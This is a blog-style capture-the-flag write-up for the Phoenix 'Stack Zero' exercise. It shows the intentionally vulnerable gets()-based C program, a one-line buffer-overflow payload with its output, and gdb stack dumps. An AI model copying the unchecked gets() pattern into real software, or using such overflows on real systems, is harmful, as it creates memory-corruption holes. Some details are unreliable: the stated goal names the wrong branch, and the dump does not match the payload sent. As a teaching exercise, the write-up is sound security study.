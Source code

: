 ```yaml
---
layout: post
title: "Stack 0x0"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Stack 0

Write-up for: https://exploit.education/phoenix/stack-zero/

<!--more-->

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
    "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
    struct {
        char buffer[64];
        volatile int changeme;
    } locals;

    printf("%s\n", BANNER);

    locals.changeme = 0;
    gets(locals.buffer);

    if (locals.changeme != 0) {
        puts("Well done, the 'changeme' variable has been changed!");
    } else {
        puts(
            "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
    }

    exit(0);
}
```

The goal of this challenge is to force the program to branch to the else path.
This can be easily achieved by overwriting the buffer member of the locals struct. By wrting past the bounds (vulnerable function is gets) of buffer, the 32-bit integer changeme can be overwritten.

```
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "A"*64 + "B"*4' | ./stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

# Debugging

Stack before the call to `gets`:

```
(gdb) x/32xw $esp
0xffffd554:     0x00000000      0x0000006f      0x00000010      0x080482b4
0xffffd564:     0x08048551      0x00000000      0x0000004e      0x00000000
0xffffd574:     0x00000000      0x00000000      0x00000000      0x00000011
0xffffd584:     0xf7ffd19c      0x00000000      0x08048294      0x00000000
0xffffd594:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd5a4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd5b4:     0xffffd5d0      0xffffd650      0xf7f8f654      0xffffd644
0xffffd5c4:     0x00000002      0xffffd650      0xf7f8f654      0x00000002
```

After the overflow:

```
(gdb) x/32xw $esp
0xffffd550:     0xffffd56c      0x00000000      0x0000006f      0x00000010
0xffffd560:     0x080482b4      0x08048551      0x00000000      0x41414141
0xffffd570:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd580:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd590:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5c0:     0x41414141      0x00006141      0xffffd650      0xf7f8f654
```

# Fix

This vulnerability can be remediated by properly checking the bounds of the input data.
